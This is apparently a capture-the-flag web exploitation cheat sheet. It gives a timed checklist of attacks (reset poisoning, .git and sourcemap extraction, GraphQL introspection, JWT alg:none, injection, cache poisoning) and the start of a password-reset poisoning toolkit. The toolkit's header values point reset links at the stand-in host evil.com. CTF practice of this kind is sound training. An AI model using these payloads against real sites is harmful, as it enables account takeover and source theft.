 
## ⚡ 90-Second Triage (Competition Optimized)

```bash
# PARALLEL EXECUTION - Run all simultaneously
# Priority 10: Instant wins (0-30 seconds)
□ Password reset poisoning → All headers (see advanced section)
□ Sourcemap files → *.js.map automatic reconstruction
□ GraphQL introspection → {__schema{types{name,fields{name}}}}
□ .git/config → Immediate source extraction

# Priority 9: Quick probes (30-60 seconds)
□ JWT alg:none + algorithm confusion
□ Challenge meta-analysis (name hints, usernames)
□ API OPTIONS requests → Method enumeration
□ Phar upload points → Deserialization setup

# Priority 8: Standard attacks (60-90 seconds)
□ SQL injection with OAST fallback
□ PHP magic hashes if MD5/SHA1 detected
□ NoSQL injection on JSON endpoints
□ Cache poisoning attempts
```

### Meta-Gaming: Challenge Context Analysis
```python
def analyze_challenge_context(challenge_info):
    """Extract hints from challenge metadata"""
    hints = []

    # Challenge name analysis
    if 'juggl' in challenge_info['name'].lower():
        hints.append('PHP type juggling likely')
    if 'time' in challenge_info['name'].lower():
        hints.append('Race condition or time-based attack')
    if 'legacy' in challenge_info['description']:
        hints.append('Check for old framework vulnerabilities')

    # Username/comment scanning
    if 'git-admin' in challenge_info['visible_users']:
        hints.append('Priority: .git directory exposure')

    return hints
```

---

## 🔓 Advanced Password Reset Poisoning (Complete Implementation)

```python
class AdvancedPasswordReset:
    """Comprehensive Host header poisoning toolkit"""

    # All possible header combinations
    HEADERS_TO_TEST = [
        # Standard Host manipulation
        {'Host': 'evil.com'},
        {'Host': 'evil.com:443'},
        {'Host': 'target.com:80@evil.com'},  # Port confusion

        # Alternative headers (priority order)
        {'X-Forwarded-Host': 'evil.com'},
        {'X-Forwarded-Server': 'evil.com'},
```